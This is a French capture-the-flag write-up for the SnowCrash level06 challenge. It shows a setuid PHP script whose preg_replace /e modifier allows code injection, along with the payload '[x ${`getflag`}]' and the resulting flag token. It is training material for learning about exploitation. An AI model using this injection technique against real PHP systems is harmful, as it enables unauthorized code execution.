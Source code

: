 on a un fichier .php et un exécutable

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ cat -n level06.php
     1  #!/usr/bin/php
     2  <?php
     3  function y($m) {
     4          $m = preg_replace("/\./", " x ", $m);
     5          $m = preg_replace("/@/", " y", $m);
     6          return $m;
     7  }
     8  function x($y, $z) {
     9          $a = file_get_contents($y);
    10          $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    11          $a = preg_replace("/\[/", "(", $a);
    12          $a = preg_replace("/\]/", ")", $a);
    13          return $a;
    14  }
    15  $r = x($argv[1], $argv[2]);
    16  print $r;
    17  ?>
```

ce programme lit un fichier qui lui est passé en argument

le /e à la ligne 10 nous permet d'envoyer du code php au programme et il sera exécuté :
le programme recherche une string "[x `mon code`]" et exécute "y(`mon code`)"

pour injecter du code en php on utilise la syntaxe suivante : ${`code`}

on créé un fichier qui contient : [x ${\`getflag\`}]

```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/iwantthisflag
```

```
level06@SnowCrash:~$ ./level06 /tmp/iwantthisflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
